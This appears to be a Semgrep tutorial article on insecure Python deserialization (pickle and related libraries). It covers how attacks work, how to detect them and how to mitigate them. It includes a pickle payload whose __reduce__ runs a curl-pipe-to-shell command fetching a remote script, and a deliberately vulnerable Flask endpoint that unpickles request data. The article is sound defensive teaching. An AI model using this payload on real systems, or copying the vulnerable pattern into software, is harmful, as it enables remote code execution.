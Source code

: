 ```yaml
---
title: Python Deserialization
description: Learn about insecure Python deserialization
hide_title: false
displayed_sidebar: learnSidebar
slug: /learn/vulnerabilities/insecure-deserialization/python-deserialization
---
```


# Insecure Deserialization in Python: Understanding the Risks and Safer Alternatives

Insecure deserialization has been a recurring entry in the OWASP Top 10 list of web application risks, and for good reason. The Python ecosystem in particular provides developers with powerful libraries for serializing and deserializing objects, but these same features can expose applications to remote code execution or denial of service. A notable example is Django’s decision to deprecate the `PickleSerializer` in version 4.1, acknowledging that the`pickle` module from Python’s standard library is inherently unsafe for deserialization.

For Python developers, this risk is anything but theoretical. If your application deserializes data, you may be giving attackers a way in. The impact can range from unexpected crashes to a full system compromise. It’s worth stressing: Python’s `pickle` and similar libraries should never be used to process untrusted input. They were built for speed and flexibility, not security.

In this article, we explain the fundamentals of serialization in Python. Then, we illustrates the most common ways insecure deserialization is exploited, and show you how to detect these patterns in your own code. Finally, we provide some practical recommendations to avoid the risks.

### Pickling and unpickling

Serialization is the process of converting Python objects into a format that can be stored or transmitted, while deserialization restores them back into usable objects. This solves a practical problem: developers need a way to save program state, transfer structured data across the network, or exchange complex objects between systems.

Python’s infamous `pickle` module was created to solve exactly this problem. It allows arbitrary Python objects to be serialized and later reconstructed. The design is intentionally permissive: objects can control how they are pickled and unpickled, and the process can invoke functions or methods during reconstruction. This flexibility makes `pickle` extremely convenient, but it also introduces a significant security risk. By design, deserialization can execute code, which means an attacker who controls the input data can run arbitrary commands.

Other libraries extend or reuse the same approach. `dill` adds more object types to what can be serialized, `jsonpickle` uses JSON as a transport format but still permits arbitrary Python object reconstruction, and `shelve` simply stores pickled objects in a file-like database. Even PyYAML, a popular choice for configuration files, defaults to unsafe loading modes unless developers explicitly call `safe_load`. These features exist to make the developer’s life easier but also increase the attack surface when used on untrusted data.

### Insecure Deserialization Attacks

The most severe outcome of insecure deserialization is remote code execution. In this case, an attacker provides a serialized payload that, when deserialized, executes system commands. 

```python
import pickle, os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ("curl http://semgrep.dev/attacker.sh | sh",))

payload = pickle.dumps(Exploit())
```

In the minimal example shown above, a pickle payload is crafted that calls `os.system` to fetch and run a script from a domain such as `semgrep.dev`. The deserialization process is not just restoring an object; it is executing arbitrary code on the server.

### How To Detect Insecure Deserialization In Your Code

Consider a Python web server built using the standard library’s `http.server` module. A developer might be tempted to unpickle data received in a request for convenience.

```python
import pickle
from flask import Flask, request
import io

app = Flask(__name__)

@app.route("/deserialize", methods=["POST"])
def deserialize():
    # Attacker controls request body
    raw_data = request.data
    obj = pickle.load(io.BytesIO(raw_data))
    return str(obj)
```

In this example, the call to `pickle.load` is applied directly to data derived from user input. If an attacker crafts a malicious pickle string, it will be executed when the handler processes the request. This is precisely the kind of pattern Semgrep’s rules can detect. The rules track data flow from untrusted sources such as HTTP request paths or headers and flag places in the code where it when it reaches sensitive functions like `pickle.loads`. Semgrep currently covers over a dozen Python libraries with known insecure deserialization functions.

### Recommendations & Mitigations

The simplest and most effective recommendation is to avoid `pickle` and its variants (`_pickle`, `cPickle`, `dill`, `jsonpickle`, `shelve`) for any untrusted input. These libraries cannot be made safe against arbitrary input because they allow execution by design. Use YAML or JSON to transfer and store data instead.

We highly recommend to use automated tools to verify compliance, since many more libraries use deserialisation powered by libraries such as `pickle` under the hood. Running Semgrep regularly as part of your continuous integration pipeline can highlight insecure deserialization patterns before they reach production.

A few examples for popular libraries:

- In Django, never switch back to the deprecated `PickleSerializer` for sessions.
- In NumPy, avoid setting `allow_pickle=True` when calling `numpy.load`.
- In PyTorch, prefer using the `weights_only=True` flag when calling `torch.load` to prevent deserialization of arbitrary Python objects.

### Conclusion

Insecure deserialization in Python is not just a theoretical concern; it is a practical risk that arises whenever untrusted data is passed to permissive deserialization libraries. The fundamental issue is that modules such as `pickle` are designed to execute code during deserialization, making them unsuitable for handling external input.

We have seen how serialization works in Python, why features like `pickle` introduce risks, how attackers exploit them through remote code execution, and how Semgrep can detect vulnerable patterns in your own projects. The path forward is clear: avoid unsafe libraries for untrusted data, choose safer alternatives like JSON or `safe_load` for YAML, and rely on automated scanning to catch mistakes early.

As the deprecation of Django’s `PickleSerializer` illustrates, the community has recognized the risks of insecure deserialization. By taking a disciplined approach to the libraries you use and by applying tools like Semgrep, you can ensure your Python applications remain resilient against this class of vulnerabilities.

For more guidance and practical rules, see the Semgrep documentation and consider scanning your codebase with our Pro rules. Identifying and fixing insecure deserialization today will save you from severe problems tomorrow.

